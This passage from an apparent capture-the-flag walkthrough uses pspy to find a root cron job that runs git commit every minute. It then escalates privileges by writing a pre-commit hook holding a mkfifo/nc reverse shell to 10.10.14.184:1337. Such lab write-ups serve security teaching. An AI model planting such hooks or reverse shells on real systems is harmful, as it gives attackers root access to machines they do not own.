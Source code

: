 Make it executable and then start it watching:

```text
dev01@opensource:/dev/shm$ chmod +x pspy64
dev01@opensource:/dev/shm$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...done
2022/06/09 21:33:26 CMD: UID=0    PID=96     | 
2022/06/09 21:33:26 CMD: UID=0    PID=922    | /usr/bin/vmtoolsd 
2022/06/09 21:33:26 CMD: UID=0    PID=920    | /usr/bin/VGAuthService 
2022/06/09 21:33:26 CMD: UID=0    PID=90     | 
2022/06/09 21:33:26 CMD: UID=0    PID=9      | 
<SNIP>
2022/06/09 21:34:01 CMD: UID=0    PID=12735  | /bin/bash /usr/local/bin/git-sync 
2022/06/09 21:34:01 CMD: UID=0    PID=12742  | git add . 
2022/06/09 21:34:01 CMD: UID=0    PID=12743  | git commit -m Backup for 2022-06-09 
2022/06/09 21:34:01 CMD: UID=0    PID=12745  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
2022/06/09 21:34:01 CMD: UID=0    PID=12744  | git push origin main 
<SNIP>
2022/06/09 21:35:01 CMD: UID=0    PID=13378  | git add . 
2022/06/09 21:35:01 CMD: UID=0    PID=13379  | git commit -m Backup for 2022-06-09 
2022/06/09 21:35:01 CMD: UID=0    PID=13380  | git push origin main 
2022/06/09 21:35:01 CMD: UID=0    PID=13381  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
```

## Exploiting Git Commit

Amongst the output we can see above there is a **git commit** running every minute. For CTF something like this is always suspicious, but I didn't know of a way to exploit. A quick look around found [this](https://www.atlassian.com/git/tutorials/git-hooks) good article from Atlassian which explains how we can use hooks to get code execution.

With the **git commit** being run regularly we can use the pre-commit file to execute commands before the commit is done. So it's nice and simple to get a reverse shell, we just put the one we used earlier in to a file called pre-commit in the dev01 users .git/hooks folder:

```text
dev01@opensource:~/.git/hooks$ echo '#!/bin/bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.184 1337 >/tmp/f' > /home/dev01/.git/hooks/pre-commit

dev01@opensource:~/.git/hooks$ chmod +x /home/dev01/.git/hooks/pre-commit
```
